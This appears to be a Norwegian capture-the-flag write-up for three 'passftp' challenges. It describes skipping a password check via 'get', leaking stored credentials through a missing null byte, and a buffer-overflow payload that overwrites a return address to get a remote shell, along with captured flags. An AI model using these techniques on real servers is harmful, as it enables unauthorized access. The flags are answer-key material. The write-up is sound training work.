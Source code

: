 # 2.5.1_passftp
Her var det bare å logge seg inn med nc passftp.utl 1024\
Lå en FLAGG-fil, hentet med get FLAGG

passFTP> get FLAGG\
Downloading file FLAGG\
FLAGG: c935921a63c755f7954aa7b43c858c67\
```
login@corax:~$ scoreboard FLAG{c935921a63c755f7954aa7b43c858c67}
Kategori: 2.5. Department of Security
Oppgave:  2.5.1_passftp
Svar:     c935921a63c755f7954aa7b43c858c67
Poeng:    10

Veldig bra!
```

# 2.5.2_passftp
Fant ut at get ignorerer passord-checken som cd får i passFTP_shared\
Tester meg litt frem og finner at passFTP_shared/src er en mappe, og finner passFTP_shared/src/main.c inni der. \
Denne nevner noe om at passordbeskyttede mapper har en egen .pass fil som sammenlignes med passordet man skriver inn\
Kjører bare `get passFTP_shared/.pass` og får dette passordet\
Jeg innså også litt senere at jeg egentlig bare kunne gjort `cd passFTP_shared/src` da denne ikke har noen .pass-fil.

Inne i kildekoden finner jeg hint til dette\
        // Use strncmp it's annoying to remove newlines from user input...\
        // TODO: Fix so you can't login with extra characters in username or password\

Finner ut at jeg kan logge inn som anonymous:anonymous, så antar at jeg skal lage en payload etter dette.\
Tester diverse, tenkte først jeg skal komme meg inn som brukernavn "user" men dette viste seg å være feil\
Etter å ha sett litt på printf-funksjonen innser jeg at hvis bufferet blir for langt så vil ikke null-byten som avslutter strengen sendes til printf.\
```
login@corax:~/2_oppdrag/5_department_of_security$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: anonymous\n\n\n\n\n\n\n\n\n\n\n
Password: anonymous
Welcome anonymous\n\n\n\n\n\n\n\n\n\n\n
anonymous:anonymous:1
oper:59f078d5c8f8a8fe47f8367086014ec9:2
admin:nopasswd:3
```
oper:59f078d5c8f8a8fe47f8367086014ec9 er brukernavn og passord til user.\
I oper sin mappe finner jeg FLAGG
```
login@corax:~/2_oppdrag/5_department_of_security$ nc passftp.utl 1024
Welcome to passFTP Server v1.0
Please login to continue
Username: oper
Password: 59f078d5c8f8a8fe47f8367086014ec9
Welcome oper

passFTP> Unknown command
passFTP> ls
total 4
-rw-r--r-- 1 admin admin 40 Jan  3 14:19 FLAGG
passFTP> get FLAGG
Downloading file FLAGG
FLAGG: 6891268a3d693812e429bb1ce1ecc96d
```
```
login@corax:~$ scoreboard FLAG{6891268a3d693812e429bb1ce1ecc96d}
Kategori: 2.5. Department of Security
Oppgave:  2.5.2_passftp
Svar:     6891268a3d693812e429bb1ce1ecc96d
Poeng:    10

Godt jobbet! Vi har funnet en fil med kildekode knyttet til et MOV<-16-system. Vi har lagt den i oppdragsmappen din på corax. Kanskje du får bruk for den i Department of Nuclear Power?

Ny fil: /home/login/2_oppdrag/access16-v1.6.mos
```

# 2.5.3_passftp
Innså tidlig at det er put som skal brukes for å kunne komme seg inn som adminbruker.
```
buffer_size = 536
shell_function_address = p64(0x0040278d, endian='little')
payload = b'A' * buffer_size + shell_function_address
```
Fant addressen for å kjøre shell fra at jeg kompilerte mitt eget program og kjørte det gjennom IDA.\
Dette funket lokalt for å åpne shell, men på remote passFTP-serveren funket det ikke...\

Skjønte at det bare var at adressene var på en annen plass. Testet bare diverse verdier som shell_function_address og fant til slutt 0x0040238d som addressen der det blir skrevet ut "Invalid filename" i remote.\
Testet først for "Invalid filename"-addressen som lå i put-funksjonen, men fant fort ut at det var den som lå i get, fant differansen mellom remote og min egen og fant til slutt 0x0040265e\
Dette ga meg remote shell
```
$ cd ..
$ ls -la
total 32
drwxr-xr-x 1 admin admin 4096 Dec 22 12:57 .
drwx------ 1 admin admin 4096 Dec 22 12:57 ..
drwxr-xr-x 1 admin admin 4096 Dec 22 12:57 anonymous
drwxr-xr-x 1 admin admin 4096 Jan  5 00:08 user
$ cd ..
$ ls -la
total 836
drwx------ 1 admin admin   4096 Dec 22 12:57 .
drwxr-xr-x 1 root  root    4096 Dec 14 21:53 ..
-rw-r--r-- 1 admin admin    220 Dec 14 21:53 .bash_logout
-rw-r--r-- 1 admin admin   3526 Dec 14 21:53 .bashrc
-rw-r--r-- 1 admin admin    807 Dec 14 21:53 .profile
-rw-r--r-- 1 admin admin     40 Jan  3 14:19 FLAGG
drwxr-xr-x 1 admin admin   4096 Dec 22 12:57 files
-rwxr-xr-x 1 admin admin 787088 Dec 22 12:57 passFTP
-rw-r--r-- 1 admin admin     79 Jan  3 14:19 passwd.txt
-rwxr-xr-x 1 admin admin  18872 Dec 22 12:57 ynetd
$ cat FLAGG
FLAGG: c9f66c1d8bb869c69fc11b025cfa974d
```
Noen påsto senere at man bare kunne laste ned passFTP-filen fra passFTP_shared/src/-mappen og finne adressene direkte, men jeg prøvde dette tidlig uten at det funket... Gjorde vel noe feil.
```
login@corax:~$ scoreboard FLAG{c9f66c1d8bb869c69fc11b025cfa974d}
Kategori: 2.5. Department of Security
Oppgave:  2.5.3_passftp
Svar:     c9f66c1d8bb869c69fc11b025cfa974d
Poeng:    10

Imponerende!
```